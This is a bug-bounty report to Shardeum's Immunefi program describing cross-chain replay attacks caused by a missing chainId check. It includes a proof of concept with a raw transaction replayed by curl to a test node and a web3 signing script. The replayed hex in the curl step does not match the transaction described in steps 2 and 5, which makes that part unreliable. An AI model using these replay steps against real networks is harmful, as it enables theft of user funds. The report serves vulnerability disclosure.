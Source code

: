 
# Cross-chain replay attacks are possible due to a missing 'chainId' check

Submitted on Jul 21st 2024 at 21:04:08 UTC by @anton_quantish for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33473

Report type: Blockchain/DLT

Report severity: High

Target: https://github.com/shardeum/shardeum/tree/dev

Impacts:
- Direct loss of funds

## Description
## Brief/Intro
The `chainId` transaction parameter is not checked before it's executed that leads to cross-chain replay attacks.

## Vulnerability Details
Every blockchain has its own unique `chainId` which should prevent the cross-chain replay attacks.

Let's imagine some address `0x1` sends 1 ether in the Ethereum to attacker (`0x2`). He makes a tx like the following, signs it, and submits in the Ethereum:
```json
{"chainId": 1, "from": "0x1", "to": "0x2", "value": 1000000000000000000, "nonce": 0}
```
The tx is successfully executed and the attacked got his 1 ether on the Ethereum.

Then, the attacker copies this signed transaction and submits it in the Shardeum.

Usually, the node first checks the signature and then checks if the `chainId` belongs to the node's blockchain or not. The Shardeum nodes, however, don't check it so, if the `0x1` address has sufficient balance in the Shardeum, the transaction will be executed because the tx signature itself is valid.

Thus, the attacker will steal 1000000000000000000 SHM from the victim.

Also, as I see, the Shardeum nodes ignore the absence of the `chainId` tx field. All the Ethereum transactions before EIP-155 do not have this field. So, these old transactions could be replayed as well (see the `Mitigation` section).

## Impact Details
The attacker can replay arbitrary transactions from other blockchains which leads to a direct loss of the user funds.

## Mitigation
Receiving a tx you MUST check that:
- the `chainId` is present and is equal to the current blockchain chainId (8080 by default);
- the `chainId` field is signed and the signature is valid.

## References
https://github.com/ethereum/EIPs/blob/master/EIPS/eip-155.md
https://mirror.xyz/0xbuidlerdao.eth/lOE5VN-BHI0olGOXe27F0auviIuoSlnou_9t3XRJseY
https://www.quicknode.com/guides/ethereum-development/smart-contracts/what-are-replay-attacks-on-ethereum


## Proof of Concept
First, let's check the `chainId`-absent transactions could be replayed.
1. Navigate to the following TX in Etherscan:
https://etherscan.io/tx/0x5c504ed432cb51138bcf09aa5e8a410dd4a1e204ef84bfed1be16dfba1b22060
This is the very first Tx set in the Ethereum blockchain

2. In the top-right corner you can switch the view to a raw tx hex. It's the following:
```
0xf86780862d79883d2000825208945df9b87991262f6ba471f09758cde1c0fc1de734827a69801ca088ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0a045e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a
```
If you decode it with
https://www.ethereumdecoder.com/?search=0xf86780862d79883d2000825208945df9b87991262f6ba471f09758cde1c0fc1de734827a69801ca088ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0a045e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a
you will see, the tx body is
```json
{
  "nonce": 0,
  "gasPrice": {
    "_hex": "0x2d79883d2000"
  },
  "gasLimit": {
    "_hex": "0x5208"
  },
  "to": "0x5df9b87991262f6ba471f09758cde1c0fc1de734",
  "value": {
    "_hex": "0x7a69"
  },
  "data": "0x",
  "v": 28,
  "r": "0x88ff6cf0fefd94db46111149ae4bfc179e9b94721fffd821d38d16464b3f71d0",
  "s": "0x45e0aff800961cfce805daef7016b9b675c137a6a41a548f7b60a3484c06a33a"
}
```
3. Start the nodes and the JSON-RPC server, fill the `0xA1E4380A3B1f749673E270229993eE55F35663b4` balance with some SHM (it will need more than 31337 + gas)
4. Replay this tx with the following cURL command:
```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"eth_sendRawTransaction","params":["0xf86b808501dcd6500082520894e952ad0d1ff706e47bcea25d29a918126efb0a99871c6bf5263400008026a0b2e4be2b39797e24f418a61378c828a7ee0e5662d011cf58ffd6fdc4d91fff84a057753b07aadf290e4fa6d8f9c533dec5e0dccb87e67cadca08d169ff6297c73b"],"id":1}' 
{"jsonrpc":"2.0","id":1,"result":"0x582b88655a7dad511eb477e445ebcfbc1c9ea5366ace3df7ac1d8b7f05813ea7"}
```
5. Wait a little, make sure the tx is executed successfully and the transfer of 31337 SHM is made from `0xA1E4380A3B1f749673E270229993eE55F35663b4` to `0x5df9b87991262f6ba471f09758cde1c0fc1de734` despite we don't know the sender private key.

As for the transactions with `chainId` field replaying, it's a bit difficult to reproduce because all the modern Ethereum transactions uses `maxFeePerGas` and `maxPriorityFeePerGas` fields but your RPC rejects it for some reason. To reproduce, you can just sign a tx for the different chain and then submit it to the Shardeum JSON-RPC using the following python script:
```python
from web3 import Web3
w3 = Web3(Web3.HTTPProvider('http://172.16.205.128:8080'))

FROM = '0x1d9f3e0620b7f19794a01da018fae85c534ae97e'

transaction = {
    'from': '0x1d9f3e0620b7f19794a01da018fae85c534ae97e',
    'to': '0xa54E321c2A394451F3286386cA26BE2317B4C212',
    'value': 2,
    'nonce': 0,
    'gas': 200000,
    'gasPrice': 10000,
    'chainId': 137  # Polygon
}

# 2. Sign tx with a private key
signed = w3.eth.account.sign_transaction(transaction, '0xed70dc3717453ccbd9147ff5da9ad4f2c87a8a0d9861f83b116400e0fa31632a')
print(signed)

# 3. Send the signed transaction
tx_hash = w3.eth.send_raw_transaction(signed.rawTransaction)
tx = w3.eth.get_transaction(tx_hash)
print(tx)
```
Just fill the sender `0x1d9f3e0620b7f19794a01da018fae85c534ae97e` with some SHM before the executing.

It should be rejected because of `chainId` differs from your own one, but the tx is successfully executed instead. In a real life it could be the tx that were previously submitted into other blockchain and then replayed on the Shardeum.